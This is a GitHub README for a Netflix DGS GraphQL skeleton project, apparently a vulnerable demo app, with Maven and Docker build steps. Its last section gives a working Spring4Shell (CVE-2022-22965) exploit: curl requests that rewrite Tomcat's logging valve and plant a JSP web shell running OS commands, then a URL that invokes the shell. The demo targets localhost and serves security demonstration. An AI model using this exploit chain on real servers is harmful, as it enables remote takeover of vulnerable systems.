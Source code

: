 # DGS (from Netflix) skeleton project

[![github-dgs-build](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml/badge.svg)](https://github.com/muldos/dgs-skeleton/actions/workflows/workflow.yml)

## Introduction

Run the project locally (outside docker): 
Set SHOWS_JSONDB_FOLDER env var (example : /Path/to/dgs-skeleton/src/main/resources/data)
then run

```
mvn spring-boot:run
```

## Build & run
Be sure that docker daemon is running.

Build as self executable JAR

```
export PKG_VERSION=1.2.3
export PKG_TYPE=jar
mvn clean package spring-boot:repackage
docker build --build-arg JAR_FILE_NAME=dgs-skeleton-$PKG_VERSION.$PKG_TYPE -t dgs-graphql:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql:latest
```

Then browse to http://localhost:8080/graphiql

Build WAR for Tomcat
```
export PKG_VERSION=1.2.3
export PKG_TYPE=war
mvn clean package
cp ./target/dgs-skeleton-$PKG_VERSION.$PKG_TYPE ./target/jfrog-demo.war
docker build --build-arg WAR_FILE_NAME=jfrog-demo.war -f DockerfileTomcat -t dgs-graphql-tomcat:latest .
docker run -p 8080:8080 -v ./src/main/resources/data:/var/db_data -d --name graphql-demo dgs-graphql-tomcat:latest
```

Then browse to http://localhost:8080/jfrog-demo/graphiql

If this version is containing the vulnerabilty CVE-2022-22965, you can then exploit it as follow : 

First run
```
curl -H "Accept: text/html;" "http://localhost:8080/jfrog-demo/vulnerable-path?class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7b%63%6f%64%65%7d%69&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=shell&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat="
```
to changes Tomcat config valve.

Then create the web shell 
```
curl -H "Accept: text/html;" -H "code: <% java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter(String.valueOf(1337))).getInputStream(); int a = -1; byte[] b = new byte[2048]; while((a=in.read(b))!=-1) { out.println(new String(b)); } %>" "http://localhost:8080/jfrog-demo/vulnerable-path"
```
And run commands using
```
http://localhost:8080/shell.jsp?1337=ls%20-al
```

### References
- https://github.com/itsecurityco/CVE-2022-22965
- https://netflix.github.io/dgs/

